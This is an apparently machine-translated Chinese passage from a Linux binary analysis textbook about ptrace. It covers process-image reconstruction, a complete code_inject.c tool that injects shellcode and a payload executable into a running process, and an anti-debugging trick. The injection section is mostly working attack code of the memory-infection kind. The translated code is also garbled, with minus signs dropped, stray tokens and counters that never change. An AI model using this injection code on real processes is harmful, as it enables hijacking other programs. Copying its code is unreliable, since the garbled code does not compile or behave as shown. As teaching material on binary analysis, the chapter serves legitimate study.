全局偏移量表将在中填充相应共享库函数的解析值。 当然，这是由动态连接器完成的，因此我们必须用原始 PLT 存根地址替换这些地址。 我们这样做是为了在第一次调用共享库函数时，它们通过将 GOT 偏移量推入堆栈的 PLT 指令正确地触发动态链接器。 参考[第二章](2.html#I3QM1-1d4163ae11644cc2802846625b2dc985 "Chapter 2. The ELF Binary Format")、*ELF 二进制格式*中的*ELF 和*动态链接部分。

下图展示了如何恢复 GOT 条目:



## 添加一个 section 头表

记住，一个程序的 section 头表在运行时不会被加载到内存中。 这是因为它是不必要的。 当将进程映像重新构建到可执行文件中时，需要(尽管不是必需的)添加一个 section 头表。 添加原始可执行文件上的每个 section 头条目是完全可能的，但是一个好的`ELF`黑客至少可以生成基本的内容。

所以试着创建一个部分头以下部分:`.interp`,`.note`,`.text`,`.dynamic`,`.got.plt`,`.data`,`.bss`,`.shstrtab`,【显示】和`.dynstr`。

### 注意事项

如果您正在重构的可执行文件是静态链接的，那么您就不会有`.dynamic`、`.got.plt`、`.dynsym`或`.dynstr`部分。

## 该过程的算法

让我们看看可执行重构:

1.  Locate the base address of the executable (text segment). This can be done by parsing `/proc/<pid>/maps`:

    ```sh
    [First line of output from /proc/<pid>/maps file for program 'evil']

    00400000-401000 r-xp /home/ryan/evil

    ```

    ### 提示

    使用`PTRACE_PEEKTEXT`和`ptrace`的请求来阅读整篇文章。 您可以在前面映射输出中的一行中看到，文本段(标记为`r-xp`)的地址范围是`0x400000`到`0x401000`，这是 4096 字节。 这就是文本段的缓冲区应该有多大。 由于我们还没有介绍如何使用`PTRACE_PEEKTEXT`一次读取一个以上的长单词，所以我编写了一个名为`pid_read()`的函数来演示一种很好的方法。

    ```sh
    [Source code for pid_read() function]
    int pid_read(int pid, void *dst, const void *src, size_t len)
    {
      int sz = len / sizeof(void *);
      unsigned char *s = (unsigned char *)src;
      unsigned char *d = (unsigned char *)dst;
      unsigned long word;
      while (sz!=0) {
        word = ptrace(PTRACE_PEEKTEXT, pid, (long *)s, NULL);
        if (word == 1)
        return 1;
        *(long *)d = word;
        s += sizeof(long);
        d += sizeof(long);
      }
      return 0;
    }
    ```

2.  解析`ELF`文件头(例如`Elf64_Ehdr`)来定位程序头表:

    ```sh
    /* Where buffer is the buffer holding the text segment */
    Elf64_Ehdr *ehdr = (Elf64_Ehdr *)buffer;
    Elf64_Phdr *phdr = (Elf64_Phdr *)&buffer[ehdr->e_phoff];
    ```

3.  然后解析程序头表，找到数据段:

    ```sh
    for (c = 0; c < ehdr>e_phnum; c++)
    if (phdr[c].p_type == PT_LOAD && phdr[c].p_offset) {
      dataVaddr = phdr[c].p_vaddr;
      dataSize = phdr[c].p_memsz;
      break;
    }
    pid_read(pid, databuff, dataVaddr, dataSize);
    ```

4.  Read the data segment into a buffer, and locate the dynamic segment within it and then the GOT. Use `d_tag` from the dynamic segment to locate the GOT:

    ### 注意事项

    我们讨论了第二章、*ELF 二进制格式*中*动态链接*部分的动态段及其标记值。

    ```sh
    Elf64_Dyn *dyn;
    for (c = 0; c < ehdr->e_phnum; c++) {
      if (phdr[c].p_type == PT_DYNAMIC) {
        dyn = (Elf64_Dyn *)&databuff[phdr[c].p_vaddr – dataAddr];
        break;
      }
      if (dyn) {
        for (c = 0; dyn[c].d_tag != DT_NULL; c++) {
          switch(dyn[c].d_tag) {
            case DT_PLTGOT:
            gotAddr = dyn[i].d_un.d_ptr;
            break;
            case DT_STRTAB:
            /* Get .dynstr info */
            break;
            case DT_SYMTAB:
            /* Get .dynsym info */
            break;
          }
        }
      }
    ```

5.  一旦找到了 GOT，就必须将其恢复到运行前的状态。 最重要的部分是恢复每个 GOT 条目中的原始 PLT 存根地址，以便在程序运行时进行惰性链接。 见[第二章](2.html#I3QM1-1d4163ae11644cc2802846625b2dc985 "Chapter 2. The ELF Binary Format")、*ELF 二进制格式*:

    ```sh
    00000000004003e0 <puts@plt>:
    4003e0: ff 25 32 0c 20 00 jmpq *0x200c32(%rip) # 601018 
    4003e6: 68 00 00 00 00 pushq $0x0
    4003eb: e9 e0 ff ff ff jmpq 4003d0 <_init+0x28>

    ```

    *ELF 动态链接*部分
6.  应该对为`puts()`保留的 GOT 条目进行补丁，以指向 PLT 存根代码，该存根代码将 GOT 偏移量推入该条目的堆栈。 它的地址`0x4003e6`在前面的命令中给出。 确定 get -to- plt 条目关系的方法留给读者作为练习。
7.  可以选择重建一个 section 头表。 然后将文本和数据段(以及段头表)写入磁盘。

## 在 32 位测试环境中使用 quanya 进行进程重构

一个名为`dumpme`的 32 位`ELF`可执行程序简单地打印`You can Dump my segments!`字符串，然后暂停，给我们时间来重建它。

现在，下面的代码演示了 Quenya 将进程映像重构为可执行文件:

```sh
[Quenya v0.1@ELFWorkshop]
rebuild 2497 dumpme.out
[+] Beginning analysis for executable reconstruction of process image (pid: 2497)
[+] Getting Loadable segment info...
[+] Found loadable segments: text segment, data segment
Located PLT GOT Vaddr 0x804a000
Relevant GOT entries begin at 0x804a00c
[+] Resolved PLT: 0x8048336
PLT Entries: 5
Patch #1 [
0xb75f7040] changed to [0x8048346]
Patch #2 [
0xb75a7190] changed to [0x8048356]
Patch #3 [
0x8048366] changed to [0x8048366]
Patch #4 [
0xb755a990] changed to [0x8048376]
[+] Patched GOT with PLT stubs
Successfully rebuilt ELF object from memory
Output executable location: dumpme.out
[Quenya v0.1@ELFWorkshop]
quit
```

这里，我们将演示输出可执行文件的正确运行:

```sh
hacker@ELFWorkshop:~/
workshop/labs/exercise_9$ ./dumpme.out
You can Dump my segments!

```

昆雅也为可执行文件创建了一个最小的 section 头表:

```sh
hacker@ELFWorkshop:~/
workshop/labs/exercise_9$ readelf -S
dumpme.out

```

有 7 个 section 头，从偏移量`0x1118`开始，如下所示:



昆雅流程重构的源代码主要位于`rebuild.c`，昆雅可以从我的网站[http://www.bitlackeys.org/](http://www.bitlackeys.org/)下载。

# 使用 ptrace 进行代码注入

到目前为止，我们已经检查了`ptrace`的一些有趣的用例，包括过程分析和过程图像重建。 `ptrace`的另一个常见用法是将新代码引入正在运行的进程并执行它。 攻击者通常会这样做，修改正在运行的程序，以便它做其他事情，比如将恶意共享库加载到进程地址空间中。

在 Linux 中，默认的`ptrace()`行为是这样的，它允许您将`Using PTRACE_POKETEXT`写入不可写的段，例如文本段。 这是因为调试器需要在代码中插入断点。 这对于那些想要将代码插入内存并执行它的黑客来说非常有用。 为了证明这一点，我们写了`code_inject.c`。 它连接到一个进程并注入一个 shell 代码，该代码将创建一个足够大的匿名内存映射来容纳我们的有效负载可执行文件`payload.c`，然后将其注入到新内存中并执行。

### 注意事项

正如本章前面提到的，用`PaX`打补丁的 Linux 内核将不允许`ptrace()`写入不可写的段。 这是为了进一步加强内存保护限制。 在文章*ELF 运行时感染经 GOT 中毒*中，我已经讨论了绕过这些限制的方法，通过操作`vsyscall`表与`ptrace`。

现在，让我们看一个代码示例，在这个示例中，我们将一个 shell 代码注入到一个正在运行的进程中，加载一个外部可执行文件:

```sh
To compile: gcc code_inject.c o code_inject
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>
#include <signal.h>
#include <elf.h>
#include <sys/types.h>
#include <sys/user.h>
#include <sys/stat.h>
#include <sys/ptrace.h>
#include <sys/mman.h>
#define PAGE_ALIGN(x) (x & ~(PAGE_SIZE 1))
#define PAGE_ALIGN_UP(x) (PAGE_ALIGN(x) + PAGE_SIZE)
#define WORD_ALIGN(x) ((x + 7) & ~7)
#define BASE_ADDRESS 0x00100000
typedef struct handle {
  Elf64_Ehdr *ehdr;
  Elf64_Phdr *phdr;
  Elf64_Shdr *shdr;
  uint8_t *mem;
  pid_t pid;
  uint8_t *shellcode;
  char *exec_path;
  uint64_t base;
  uint64_t stack;
  uint64_t entry;
  struct user_regs_struct pt_reg;
} handle_t;

static inline volatile void *
evil_mmap(void *, uint64_t, uint64_t, uint64_t, int64_t, uint64_t)
__attribute__((aligned(8),__always_inline__));
uint64_t injection_code(void *) __attribute__((aligned(8)));
uint64_t get_text_base(pid_t);
int pid_write(int, void *, const void *, size_t);
uint8_t *create_fn_shellcode(void (*fn)(), size_t len);

void *f1 = injection_code;
void *f2 = get_text_base;

static inline volatile long evil_write(long fd, char *buf, unsigned long len)
{
  long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov %2, %%rdx\n"
    "mov $1, %%rax\n"
    "syscall" : : "g"(fd), "g"(buf), "g"(len));
  asm("mov %%rax, %0" : "=r"(ret));
  return ret;
}

static inline volatile int evil_fstat(long fd, struct stat *buf)
{
  long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov $5, %%rax\n"
    "syscall" : : "g"(fd), "g"(buf));
  asm("mov %%rax, %0" : "=r"(ret));
  return ret;
}

static inline volatile int evil_open(const char *path, unsigned long flags)
{
  long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov $2, %%rax\n"
    "syscall" : : "g"(path), "g"(flags));
    asm ("mov %%rax, %0" : "=r"(ret));
  return ret;
}

static inline volatile void * evil_mmap(void *addr, uint64_t len, uint64_t prot, uint64_t flags, int64_t fd, uint64_t off)
{
  long mmap_fd = fd;
  unsigned long mmap_off = off;
  unsigned long mmap_flags = flags;
  unsigned long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov %2, %%rdx\n"
    "mov %3, %%r10\n"
    "mov %4, %%r8\n"
    "mov %5, %%r9\n"
    "mov $9, %%rax\n"
    "syscall\n" : : "g"(addr), "g"(len), "g"(prot), "g"(flags),
    "g"(mmap_fd), "g"(mmap_off));
  asm ("mov %%rax, %0" : "=r"(ret));
  return (void *)ret;
}

uint64_t injection_code(void * vaddr)
{
  volatile void *mem;
  mem = evil_mmap(vaddr,8192,
  PROT_READ|PROT_WRITE|PROT_EXEC,
  MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS,1,0);
  __asm__ __volatile__("int3");
}

#define MAX_PATH 512

uint64_t get_text_base(pid_t pid)
{
  char maps[MAX_PATH], line[256];
  char *start, *p;
  FILE *fd;
  int i;
  Elf64_Addr base;
  snprintf(maps, MAX_PATH 1,
  "/proc/%d/maps", pid);
  if ((fd = fopen(maps, "r")) == NULL) {
    fprintf(stderr, "Cannot open %s for reading: %s\n", maps, strerror(errno));
    return 1;
  }
  while (fgets(line, sizeof(line), fd)) {
    if (!strstr(line, "rxp"))
    continue;
    for (i = 0, start = alloca(32), p = line; *p != ''; i++, p++)
    start[i] = *p;

    start[i] = '\0';
    base = strtoul(start, NULL, 16);
    break;
  }
  fclose(fd);
  return base;
}

uint8_t * create_fn_shellcode(void (*fn)(), size_t len)
{
  size_t i;
  uint8_t *shellcode = (uint8_t *)malloc(len);
  uint8_t *p = (uint8_t *)fn;
  for (i = 0; i < len; i++)
  *(shellcode + i) = *p++;
  return shellcode;
}

int pid_read(int pid, void *dst, const void *src, size_t len)
{
  int sz = len / sizeof(void *);
  unsigned char *s = (unsigned char *)src;
  unsigned char *d = (unsigned char *)dst;
  long word;
  while (sz!=0) {
    word = ptrace(PTRACE_PEEKTEXT, pid, s, NULL);
    if (word == 1 && errno) {
      fprintf(stderr, "pid_read failed, pid: %d: %s\n", pid,strerror(errno));
      goto fail;
    }
    *(long *)d = word;
    s += sizeof(long);
    d += sizeof(long);
  }
  return 0;
  fail:
  perror("PTRACE_PEEKTEXT");
  return 1;
}

int pid_write(int pid, void *dest, const void *src, size_t len)
{
  size_t quot = len / sizeof(void *);
  unsigned char *s = (unsigned char *) src;
  unsigned char *d = (unsigned char *) dest;
  while (quot!= 0) {
    if ( ptrace(PTRACE_POKETEXT, pid, d, *(void **)s) == 1)
    goto out_error;
    s += sizeof(void *);
    d += sizeof(void *);
  }
  return 0;
  out_error:
  perror("PTRACE_POKETEXT");
  return 1;
}

int main(int argc, char **argv)
{
  handle_t h;
  unsigned long shellcode_size = f2 f1;
  int i, fd, status;
  uint8_t *executable, *origcode;
  struct stat st;
  Elf64_Ehdr *ehdr;
  if (argc < 3) {
    printf("Usage: %s <pid> <executable>\n", argv[0]);
    exit(1);
  }
  h.pid = atoi(argv[1]);
  h.exec_path = strdup(argv[2]);
  if (ptrace(PTRACE_ATTACH, h.pid) < 0) {
    perror("PTRACE_ATTACH");
    exit(1);
  }
  wait(NULL);
  h.base = get_text_base(h.pid);
  shellcode_size += 8;
  h.shellcode = create_fn_shellcode((void *)&injection_code, shellcode_size);
  origcode = alloca(shellcode_size);
  if (pid_read(h.pid, (void *)origcode, (void *)h.base, shellcode_size) < 0)
  exit(1);
  if (pid_write(h.pid, (void *)h.base, (void *)h.shellcode, shellcode_size) < 0)
  exit(1);
  if (ptrace(PTRACE_GETREGS, h.pid, NULL, &h.pt_reg) < 0) {
    perror("PTRACE_GETREGS");
    exit(1);
  }
  h.pt_reg.rip = h.base;
  h.pt_reg.rdi = BASE_ADDRESS;
  if (ptrace(PTRACE_SETREGS, h.pid, NULL, &h.pt_reg) < 0) {
    perror("PTRACE_SETREGS");
    exit(1);
  }
  if (ptrace(PTRACE_CONT, h.pid, NULL, NULL) < 0) {
    perror("PTRACE_CONT");
    exit(1);
  }
  wait(&status);
  if (WSTOPSIG(status) != SIGTRAP) {
    printf("Something went wrong\n");
    exit(1);
  }
  if (pid_write(h.pid, (void *)h.base, (void *)origcode, shellcode_size) < 0)
  exit(1);
  if ((fd = open(h.exec_path, O_RDONLY)) < 0) {
    perror("open");
    exit(1);
  }
  if (fstat(fd, &st) < 0) {
    perror("fstat");
    exit(1);
  }
  executable = malloc(WORD_ALIGN(st.st_size));
  if (read(fd, executable, st.st_size) < 0) {
    perror("read");
    exit(1);
  }
  ehdr = (Elf64_Ehdr *)executable;
  h.entry = ehdr->e_entry;
  close(fd);
  if (pid_write(h.pid, (void *)BASE_ADDRESS, (void *)executable, st.st_size) < 0)
  exit(1);
  if (ptrace(PTRACE_GETREGS, h.pid, NULL, &h.pt_reg) < 0) {
    perror("PTRACE_GETREGS");
    exit(1);
  }
  h.entry = BASE_ADDRESS + h.entry;
  h.pt_reg.rip = h.entry;
  if (ptrace(PTRACE_SETREGS, h.pid, NULL, &h.pt_reg) < 0) {
    perror("PTRACE_SETREGS");
    exit(1);
  }
  if (ptrace(PTRACE_DETACH, h.pid, NULL, NULL) < 0) {
    perror("PTRACE_CONT");
    exit(1);
  }
  wait(NULL);
  exit(0);
}
```

下面是`payload.c`的源代码代码。 它的编译不需要`libc`链接，使用位置无关代码:

```sh
To Compile: gcc -fpic -pie -nostdlib payload.c -o payload

long _write(long fd, char *buf, unsigned long len)
{
  long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov %2, %%rdx\n"
    "mov $1, %%rax\n"
    "syscall" : : "g"(fd), "g"(buf), "g"(len));
  asm("mov %%rax, %0" : "=r"(ret));
  return ret;
}

void Exit(long status)
{
  __asm__ volatile("mov %0, %%rdi\n"
  "mov $60, %%rax\n"
  "syscall" : : "r"(status));
}

_start()
{
  _write(1, "I am the payload who has hijacked your process!\n", 48);
  Exit(0);
}
```

# 简单的例子并不总是那么微不足道

虽然我们的代码注入的源代码看起来并不琐碎，但`code_inject.c`源代码是实际内存感染病毒的一个稍微衰减的版本。 我这样说是因为它仅限于注入位置无关的代码，并且它将有效负载可执行文件的文本和数据段连续加载到相同的内存区域中。

如果有效负载程序要引用数据段中的任何变量，它们将无法工作，因此在实际场景中，两个段之间必须有适当的页面对齐。 在我们的例子中，有效负载程序非常基本，只是将一个字符串写入终端的标准输出。 同样在真实的场景中，攻击者通常希望保存原始的指令指针和寄存器，然后在 shell 代码运行后在那个点继续执行。 在我们的例子中，我们只是让 shell 代码打印一个字符串，然后退出整个程序。

大多数黑客将共享库或可重定位代码注入进程地址空间。 将复杂的可执行文件注入进程地址空间的想法是我以前从未见过的一种技术，除了我自己的实验和实现之外。

### 注意事项

注入复杂的程序的一个很好的例子可以找到进程地址空间的`elfdemon`源代码,它允许用户将一个完整的动态链接可执行`ET_EXEC`类型的现有过程没有覆盖主机程序。 这项任务有许多挑战，可以在我的一个实验项目中找到以下链接:

[http://www.bitlackeys.org/projects/elfdemon.tgz](http://www.bitlackeys.org/projects/elfdemon.tgz)

# 演示 code_inject 工具

正如我们所看到的，我们的程序注入并执行了一个 shell 代码，该代码创建了一个可执行的内存映射，然后有效负载程序被注入并执行:

1.  运行主机程序(您要感染的程序):

    ```sh
    ryan@elfmaster:~$ ./host &
    [1] 29656
    I am but a simple program, please don't infect me.

    ```

2.  运行`code_inject`，告诉它将名为 payload 的程序注入到主机进程中:

您可能已经注意到，在`code_inject.c`中似乎没有传统的 shell 代码(字节代码)。 这是因为`uint64_t injection_code(void *)`函数是我们的 shell 代码。 因为它已经被编译成机器指令，所以我们只是计算了它的长度，并将它的地址传递给`pid_write()`，以便将它注入到进程中。 在我看来，这是一种比包含字节码数组的更常见方法更优雅的方法。

# 一个 ptrace 反调试技巧

`ptrace`命令可以作为一种反调试技术。 通常，当黑客不希望他们的程序被容易地调试时，他们包括某些反调试技术。 在 Linux 中，一种流行的方法是将`ptrace`与`PTRACE_TRACEME`请求一起使用，以便它跟踪自己的进程。

请记住，一个进程一次只能有一个跟踪程序，因此，如果一个进程已经被跟踪，并且调试器试图使用`ptrace`连接，则会显示`Operation not permitted`。 `PTRACE_TRACEME`也可以用来检查你的程序是否已经被调试。 您可以使用下面部分中的代码进行检查。

## 您的程序正在被跟踪吗?

让我们来看看一个代码片段，它将使用`ptrace`来确定您的程序是否已经被跟踪:

```sh
if (ptrace(PTRACE_TRACEME, 0) < 0) {
printf("This process is being debugged!!!\n");
exit(1);
}
```

前面的代码能够工作，因为它只在程序已经被跟踪时才会失败。 因此，如果`ptrace`和`PTRACE_TRACEME`返回一个错误值(小于`0`)，则可以确定存在一个调试器，然后退出程序。

### 注意事项

如果没有调试器，那么`PTRACE_TRACEME`将成功，现在程序正在跟踪自己，调试器跟踪程序的任何尝试都将失败。 因此，这是一个很好的反调试措施。

所示[第一章【显示】,*Linux 环境及其工具*、`LD_PRELOAD`环境变量可用于绕过这 anti-debug 措施通过欺骗程序加载一个假`ptrace`命令,返回`0`,对调试器,因此没有任何作用。 相反，如果一个程序使用`ptrace`反调试技巧而不使用`libc ptrace`包装器—而是创建自己的包装器—那么`LD_PRELOAD`技巧将不起作用。 这是因为该程序不依赖任何库来访问`ptrace`。](1.html#E9OE2-1d4163ae11644cc2802846625b2dc985 "Chapter 1. The Linux Environment and Its Tools")

下面是通过编写自己的包装器来使用`ptrace`的另一种方法。 我们将在本例中使用`x86_64 ptrace`包装器:

```sh
#define SYS_PTRACE 101
long my_ptrace(long request, long pid, void *addr, void *data)
{
   long ret;
    __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov %2, %%rdx\n"
    "mov %3, %%r10\n"
    "mov $SYS_PTRACE, %%rax\n"
    "syscall" : : "g"(request), "g"(pid),
    "g"(addr), "g"(data));
    __asm__ volatile("mov %%rax, %0" : "=r"(ret));
    return ret;
}
```

# 总结

在本章中，您了解了`ptrace`系统调用的重要性，以及如何将其与病毒和内存感染一起使用。 另一方面，它是安全研究人员、逆向工程和先进的热修补技术的强大工具。

在本书的其余部分中将定期使用`ptrace`系统调用。 这一章仅作为入门。

在下一章中，我们将介绍令人兴奋的 Linux ELF 病毒感染世界以及病毒创建背后的工程实践。**